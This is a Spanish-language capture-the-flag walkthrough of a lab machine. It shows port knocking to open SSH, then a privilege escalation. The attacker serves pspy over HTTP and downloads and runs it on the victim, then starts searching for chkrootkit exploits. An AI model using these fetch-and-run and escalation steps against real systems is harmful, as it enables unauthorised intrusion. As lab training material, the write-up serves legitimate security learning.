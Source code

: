 Aqui vemos quel puerto 22 esta cerrado

```bash
knock 10.10.10.43 571:tcp 290:tcp 911:tcp
nmap -p22 10.10.10.43 --open -T5 -v -n
```

Aqui vemos que el puerto 22 se a abierto, y desde aqui nos podemos connectar por ssh como el usuario amrois.







## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
cd /root
```

Aqui no vemos nada interesante y no podemos entrar en el directorio root.

#### Analisis de processos con PSPY {-}

instalamos la herramienta en la maquina de atacante y lo compartimos con un web server.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Esperamos un poco y vemos que hay un script 
```bash
 /usr/bin/chkrootkit 
```
 que se ejecuta a interval regular de tiempo.

#### Priviledge escalation con chkrootkit {-}

```bash
searchsploit chkrootkit
```

